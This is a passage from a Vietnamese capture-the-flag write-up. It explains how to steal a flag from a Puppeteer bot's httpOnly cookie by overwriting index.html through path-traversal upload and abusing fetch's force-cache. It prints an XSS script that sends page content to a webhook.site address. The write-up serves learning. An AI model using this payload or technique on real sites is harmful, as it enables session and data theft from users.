 ```
    await browser.close();

  } catch (e) {
    console.log(e);
    await browser.close();
  }
}

module.exports = { visit };
```

Sử dụng chronium puppeteer tạo một page  và set cookie 

```
await page.setCookie({
      
			httpOnly: true,
			name: 'sid',
			value: flag_id,
			domain: 'localhost',
      
		});

```
sau đó truy cập vào localhost 2 lần, ở đây bạn có thể nhận thấy rằng server gọi 2 lần để vào trang này và cách nhau 3s

và lần sau lại vào `http://localhost:3000/?f=${id}` với id của người dùng
Vậy bây giờ mình sẽ có thể hiểu cách để lấy được flag và sẽ tạo 1 file XSS sau đó share cho con bot nó sẽ check để hiển thị thông tin của file flag
Nhưng mà vấn đề ở đây là page nó đã set httpOnly rồi nên chúng ta sẽ không thể lấy được cái sid là flag-id lúc này, đầu tiền mình đã tìm vài cách để bypass như là TRACE hay là overwrite cookie nhưng mà vẫn không khả thi.
Lưu ý là giá trị sid khi upload có thể thay đổi được nên lúc này chúng ta có thể upload file với path-traversal, lúc này mình cũng nhận thấy răng khi mà set template để render sever cũng không gán mặc định đó đến thư mục view, vì vậy nếu mà mình để 1 file index.html vào trong thư mục public thì sao, đương nhiên là nó sẽ hiển thị file này của mình khi mình get /.
Theo như giải thích của các anh thì mình có thể hiểu được là nếu mà bây giờ mình thử tạo một script fetch lấy nội dung với route / thì nội dung nhận được sẽ là nội dung của file index mình ghi đè mình nhận được sau khi mở page lần 2, vậy nên ý tưởng ở đây là lần đầu đợi bot vào trang lần đầu kia đã vì có thời gian delay nên 2 tầm 2s mình ghi đè file index với nội dung 

```
<script>
fetch("/", {"cache":"force-cache"}).then(r => r.text()).then(r => fetch("https://webhook.site/1866faa7-11e6-421d-8b25-5efeefe3748e?f="+ btoa(r)))
</script>
```

Ta có thể hiểu là cơ chế force-cache của hàm fetch là cơ chế nhằm giảm thiểu tải trọng load nhằm tăng hiệu suất cho trang web nó sẽ không gọi đến api mà sử dụng bộ đệm của chrome và lúc này toàn bộ cái dữ liệu được ghi lại trong bộ đệm lúc này sẽ trả ra ở res của mình và gửi đến webhook và sẽ nhận được đoạn nội dung, cần chú ý ở đoạn này
```
   imgElement.src = `/<%= id %>/${fileName}`;
```
